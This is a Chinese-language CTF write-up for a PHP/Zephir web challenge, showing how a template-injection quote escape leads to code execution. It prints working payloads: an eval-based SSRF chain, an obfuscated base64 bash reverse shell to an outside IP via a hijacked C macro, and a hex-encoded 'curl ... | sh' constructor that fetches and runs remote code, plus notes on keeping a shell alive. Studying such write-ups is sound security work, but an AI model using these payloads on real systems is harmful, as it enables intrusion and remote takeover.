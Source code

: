 ```yaml
---
archive: CTF
tags: #Web #PHP
Date: 2023/1/10
---
```


题目环境：
php7.4 + Zephir

用户输入一个链接，然后通过以下模板文件生成一个访问类。
```php
namespace {namespace};
class {class}{
    public function getURL(){
        return "{base64url}";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "{url}");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

使用了 `preg_replace` 进行模板关键字的替换，主要逻辑：
```php
$zep_file = preg_replace('/(.*)\{namespace\}(.*)/is', '${1}'.$namespace.'${2}', $tmpl);
$zep_file = preg_replace('/(.*)\{class\}(.*)/is', '${1}'.$class.'${2}', $zep_file);
$zep_file = preg_replace('/(.*)\{base64url\}(.*)/is', '${1}'.base64_encode($url).'${2}', $zep_file);
$zep_file = preg_replace('/(.*)\{url\}(.*)/is', '${1}'.$url.'${2}', $zep_file);
```

其中只有 `url` 完全可控。WAF对于 `url` 进行了一次 `addslashes` 转义，并且在调用 `test` 函数之前会调用 `getURL` 然后 `base64decode` 检查 url 是否出现 `[a-zA-Z0-9_\/\.\:]` 之外的非法字符。

`bot.php` 读取模板文件内容并把它通过 [zephir](https://github.com/zephir-lang/zephir) 编译成 so 文件供 php 脚本调用。然后调用命令行执行 php 脚本。
```php
<?php
if (class_exists('\\{namespace}\\{class}')) {
    \$magic_methods = ['__construct', '__destruct', '__call', '__callStatic', '__get', '__set', '__isset', '__unset', '__sleep', '__wakeup', '__toString', '__invoke', '__set_state', '__clone', '__debugInfo','__serialize','__unserialize'];
    foreach (get_class_methods('\\{namespace}\\{class}') as \$method) {
        if (in_array(\$method, \$magic_methods)) {
            die('Magic method ' . \$method . ' is not allowed');
        }
    }
    \$c = new \\{namespace}\\{class};
    \$url = base64_decode(\$c->getURL());
    if (preg_match('/[^a-zA-Z0-9_\/\.\:]/', \$url)) {
        die('Invalid characters in URL');
    }
    echo \$c->test();

} else {
    echo 'Class \\{namespace}\\{class} not found';
}
?>
```

Zephir 主要流程是将 php 代码生成 c 代码再编译得到 so 文件。

## `\` 绕过

使用 `\"` 经过`addslashes` + `preg_replace` 后会变成 `\\"` 从而逃出引号。

```php
<?php
$url = "\(";
$url = addslashes($url);
echo $url;
$url2 = preg_replace('/\{url\}/', $url, "{url}");
echo $url2;
// output:
// \\(
// \(
```

构造：
```
https://store.steampowered.com/app\");}}
payload
function foo(){if false{var bar=0;//
```

**使用 `${2}` ?**
```
https://store.steampowered.com/app${2}
payload/*
```

php模板会变成：
```php
namespace Admin;

class Simple{
    public function getURL(){
        return "base64";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "https://store.steampowered.com/app");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
payload/*");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

## 利用

### SSRF

php 的构造函数可以和类同名，在创建类实例时自动调用。如果存在 `__construct` 函数便会覆盖这个同名构造函数。

因此可以构造一个同名构造函数进行调用。

```
http://xxx\\"}
public function <classname>(){
	payload
var ch=0;//");
```

由于 zephir 自己的语言能力较弱，所以考虑直接使用 eval 执行 php 代码，然后用 php-curl 构造 ssrf 数据包。

关键 payload：[from](https://github.com/wupco/rwctf2023-ASTLIBRA/blob/main/exploit.py)
```
payload = 'http;Lyo;$bd = base64_decode($this->getURL()); $bd = $bd[5].$bd[6].$bd[7].$bd; eval(base64_decode($bd));//\\");} public function test123456(){ eval(base64_decode(this->getURL())); var ch = curl_init();//%s' % code.decode()
```

![](https://image.silente.top/img/p2.png)

### cblock

`secure.patch` 中有一个 fix 注释掉了 cblock 内容，翻 Zephir github 才知道它其实[支持](https://github.com/zephir-lang/zephir/issues/654)使用 cblock 内嵌 c 代码，（但是官方文档里并没有相关的指南hh）

类似于这种例子：
```php
namespace Testcurl;
%{
#include <stdio.h>
#include <curl/curl.h>
}%
class Simple
{
    public static function version() -> string
    {
        string ver="";
        %{
            ZVAL_STRING(ver, curl_version(), 1);
        }%
        return ver;
    }
    public static function getUrlContent(string! url)
    {
        %{
            CURL *curl;
            CURLcode res;
            curl = curl_easy_init();
            if(curl) {
              curl_easy_setopt(curl, CURLOPT_URL, Z_STRVAL_P(url));
              curl_easy_setopt(curl, CURLOPT_FOLLOWLOCATION, 1L);
              res = curl_easy_perform(curl);
              curl_easy_cleanup(curl);
            }
        }%
    }
}
```

而进一步翻阅源码可以知道 Zephir 在解析 cblock 时分为了全局域和函数域两个步骤，`secure.patch` 所在的 `Library/StatementsBlock.php` 仅仅对应了对于函数域的解析，然后对于全局域的解析是在 `Library/CompilerFile.php`，并没有被ban掉，所以可以在全局域嵌入 c 代码。

形如：
```
https://store.steampowered.com/app\");}}
%{
payload
}%
function foo(){if false {var bar=0;//
```

1. 劫持宏反弹shell

查看 Zephir 生成的 C 语言代码，可以看到在 `getURL` 那里调用了一个 Zend API： `RETURN_STRING`，重定义劫持宏达成命令执行。

```
https://store.steampowered.com/app\");}}
%{
#define A bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjE0Mi4xMDQuNzgvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}'
#define _A(str) _TMP(str)
#define _TMP(str) #str
#define RETURN_STRING(a) system(_A(A))
}%
function foo(){if false {var bar=0;//
```

2. `__attribute__`
GNC C 特有的一个机制，可以设置函数属性（Function Attribute ）、变量属性（Variable Attribute ）和类型属性（Type Attribute ）。

```
https://store.steampowered.com/app\");}}
%{
__attribute__((constructor)) static void beforeFunction() {
char s[] = {0x63,0x75,0x72,0x6c,0x20,0x38,0x2e,0x31,0x34,0x32,0x2e,0x31,0x30,0x34,0x2e,0x37,0x38,0x3a,0x39,0x30,0x30,0x31,0x7c,0x73,
              0x68, 0x00};
        system(s);
};
}%
function a(){if false{var ch=0;//
```

### 维持

在执行 `bot.php` 时会加入一个 `timeout 10` 参数，需要获得一个持久的 shell。

经过尝试发现可以在弹的shell里面再弹一次shell，它就只会关闭第二个shell，第一个 shell 就不会 exit，不是很懂。。。

## Ref
- r3
- https://github.com/wupco/rwctf2023-ASTLIBRA
- [Zephir](https://github.com/zephir-lang/zephir)
- [Zend API](https://php.golaravel.com/internals2.ze1.zendapi.html)